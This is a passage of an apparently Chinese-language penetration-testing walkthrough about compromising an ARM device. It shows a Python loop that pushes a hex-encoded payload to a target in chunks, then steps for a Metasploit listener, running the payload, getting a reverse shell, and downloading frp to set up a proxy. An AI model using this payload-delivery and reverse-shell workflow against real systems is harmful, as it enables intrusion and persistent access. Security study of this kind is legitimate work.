 ```
headers['Host'] = urllib.parse.urlparse(target).netloc

i = 0
for chunk in read_string(hex_string, chunk_size=180):
    result = sendPayload(target, chunk)
    if not result:
        print('send again')
        result = sendPayload(target, chunk)
    if result:
        print(str(i) + '/' + str(hex_string_len))
        i += 180
    else:
        print('Request failed.')
        sys.exit(1)

print('Over')

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4E31qhyO3bn3LIwdgtgibMJlycYWrqPgzkJicNG8leQGgl7K8ma6w9bLlw/640?wx_fmt=png&from=appmsg "")  
  
#### 3) MSF 监听端口  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4Ecy03mdYxppSVxKfaFG20mcicXCGtK1LfkAWmcLU1IuU7fddrP0SXqBg/640?wx_fmt=png&from=appmsg "")  
  
#### 4) 添加权限并执行 payload  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4EkQ4zZteDpiaf8K8Qft05EibOvNibXt9pTiarTOLrjEquVGial653yRDmQcw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4EtWcIXibstQjaOGIbVJm4fmjZibU2cro4tm2q1PJqice4UUWfQ30DibHROg/640?wx_fmt=png&from=appmsg "")  
  
  
成功反弹shell 并测试上传文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4EogSnLqKwib7q6uOhSoic0QzApKVXiaYHu9ARXiaAicmuVftRkW1d6VXtwEQ/640?wx_fmt=png&from=appmsg "")  
  
  
成功上传文件  
#### 5) 建立代理  
> https://github.com/fatedier/frp  
> https://github.com/fatedier/frp/releases/download/v0.55.1/frp_0.55.1_linux_arm.tar.gz  
  
  
下载 arm 32位版本的  
  
在尝试通过 meterpreter 进行上传 frp 时，结果传到一半，meterpreter 就断了，之后就出现了  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4EqWScHVaWD6Uo8iadwWWibTzibiceGPgWZfF3eYibvVO0GDvPAQKZEzksbZw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4E4CkSHQIJ8BsVWG6E49eTNMSKcACGmqTBwwASLzAMsbVwPEN00eUVBw/640?wx_fmt=png&from=appmsg "")  
  
  